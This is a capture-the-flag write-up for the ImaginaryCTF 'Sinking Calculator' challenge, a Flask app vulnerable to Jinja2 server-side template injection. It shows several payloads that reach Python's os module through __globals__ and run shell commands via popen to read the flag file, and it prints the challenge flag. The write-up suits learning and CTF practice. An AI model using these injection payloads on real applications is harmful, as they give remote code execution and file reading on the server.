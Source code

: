 # Sinking Calculator | Points: 300 | Solves: 86

My computer architecture professor told me: "Every time you see a decimal, you should hate it!" I took his advice to heart, and made a calculator. But don't worry! I got rid of all the decimals. No floats here!

Flag is in the file flag.

Attachments:
- https://imaginaryctf.org/r/40A3-app.py
- https://sinking-calculator.chal.imaginaryctf.org

#

We are presented with an input field where we can input our calculations. The code performing these calculations looks like this:

```python
@app.route('/calc')
def calc():
    query = request.args['query']
    request.args = {}
    request.headers = {} # no outside help!
    request.cookies = {}
    if len(query) > 80: # my exploit is 77 chars, but 80 is such a nice even number
        return "Too long!"
    res = render_template_string("{{%s}}"%query)
    out = ''
    for c in res:
        if c in "0123456789-": # negative numbers are cool
            out += c
    return out
```

We can see the actual calculations happen in this line of code:

```python
res = render_template_string("{{%s}}"%query)
```

This is a big indicator that the solution lies in exploiting the rendering of this template but there are 2 roadblocks. Firstly the length of our exploit can be at most 80 and secondly only the digits of whatever our exploit returns will be displayed. The objective is to read the contents of the file "flag" so we will need to convert its contents to digits somehow. Lets deal with how to read the file first. 

I'm not going to go into too much detail of how these exploits work. Instead I will focus on the steps I took to reduce the characters required, well below the limit of 80 characters. This was the first challenge of this kind I had worked on so hopefully I can capture the ideas and strategies I used to learn these techniques for the first time, including some links I used in the process. 

My initial exploit looked like this:

```python
request["application"]["__globals__"]["__builtins__"]["__import__"]('os')["popen"]("cat flag | xxd -b")["read"]()
```

What a mess! This script accesses the function ```popen``` to gain shell access to read the flag via cat and then pipe the output to xxd. With the -b option xxd will print the content of the file in binary, passing the numeric requirement mentioned earlier. But this is 113 characters long, no good. An obvious optimization is to use dot notation instead of indexing via strings, like this:

```python
request.application.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

A little better, 95 characters. At this point I felt like investigating another approach by using ```mro()``` and similar tricks. I came up with this:

```python
request.__class__.mro()[3].__subclasses__()[84].load_module("os").popen("cat flag | xxd -b").read()
```

At 99 characters it is actually worse than the previous exploit but I'm including it to show the process I went through. It was a path worth investigating, it just didn't pan out. Now I started playing around with different attributes that lead to accessing ```__builtins__``` and I found that ```self.__init__``` can be used instead of ```request.application``` which gets us down to 89 characters with the exploit below. So close! 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

I felt a little stuck at this point with the process of finding shorter paths to the ```os``` module so I played a bit with the command to read the flag and found two neat little tricks. There is a command similar to cat that also prints line numbers called "nl", one character shorter than cat. We can also use "*" instead of specifically reading just the file "flag", saving us 3 characters. 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("nl * | xxd -b").read()
````

Only 5 characters more to go! To cut off the last few characters I remembered that the ```os``` module can sometimes be accessed directly via the attribute ```__globals__```. Indeed if we use ```config.__class__.__init__.__globals__``` we can directly access the ```os``` module! We have our finished exploit! This trick in fact saves us so many characters that we can skip the last two tricks and still get away with it! 

```python
config.__class__.__init__.__globals__.os.popen('cat flag | xxd -b').read()
```

74 characters! We paste it into the input field and... no flag :(. Why? Well the assumption this exploit relies on is that xxd is installed, which is not the case on the challenge server. Is all hope lost? No. After googling a bit for alternatives to xxd I found this helpful Stackoverflow post https://stackoverflow.com/questions/1765311/how-to-view-files-in-binary-from-bash mentioning od. With the command od -b we convert the contents to octal, that is base 8 (It's also conveniently one character shorter than xxd). We will have to do some post processing though because od produces 7 character long line numbers which we have to filter out to read the actual flag, but that is easy enough to automate. The working exploit, all tricks included, is the following 59 character exploit. 

```python
config.__init__.__globals__.os.popen('nl * | od -b').read()
```

Pasting this into the input field gets is the flag: ictf{this_flag_has_three_interesting_properties_it_has_no_numbers_or_dashes_it_is_quite_long_and_it_is_quite_scary}
